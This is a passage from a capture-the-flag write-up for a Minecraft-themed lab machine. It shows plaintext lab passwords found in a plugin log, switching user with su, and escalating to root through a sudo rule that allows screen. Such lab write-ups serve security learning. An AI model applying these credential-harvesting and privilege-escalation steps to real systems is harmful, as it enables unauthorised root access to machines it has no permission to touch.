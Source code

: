> What is the name of the sketchy plugin?

Naturally we would gravitate towards `passwords.yml`. The password hashes in this yaml file do not provide any use to us. We could attempt to run `hashcat` or `john` against these MD5 hashes, but we would only be able to decrypt the `madrinch` user and not the `cybercrafted` user. There are only three other files in this directory and I'm thinking `logs.txt` or possibly `settings.yml` might have some useful info.

```
xxxxxxxxxxxxxxxxxxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/xxxxxxxxxxx$ cat log.txt

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/06/27 11:25:16] cybercrafted registered. PW: JavaEdition>Bedrock
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/06/27 11:57:54] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/06/27 11:58:46] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/06/27 11:59:01] madrinch logged in. PW: Password123


[2021/10/15 17:13:45] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/10/15 20:36:21] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
[2021/10/15 21:00:43] [BUKKIT-SERVER] Startet xxxxxxxxxxx!
```

That spells it out easy enough for us. With the `cybercrafted` users password in hand, we can try to switch user (`su`)

```
xxxxxxxxxxxxxxxxxxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/xxxxxxxxxxx$ su cybercrafted
Password: 
cybercrafted@cybercrafted:/opt/minecraft/cybercrafted/plugins/xxxxxxxxxxx$
```

## **Privilege Escalation**

Knowing what permissions a user is allowed to do, `sudo` is a pretty important one. We can view what sudo privileges the user can perform by typing `sudo -l`

```
cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted: 
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

This user is allowed to run the command `/usr/bin/screen -r cybercrafted` with sudo. Screen is a windows manager for terminals much like tmux. So if we can use sudo to launch screen, we should be able to spawn terminals from screen which should inherit root privileges.
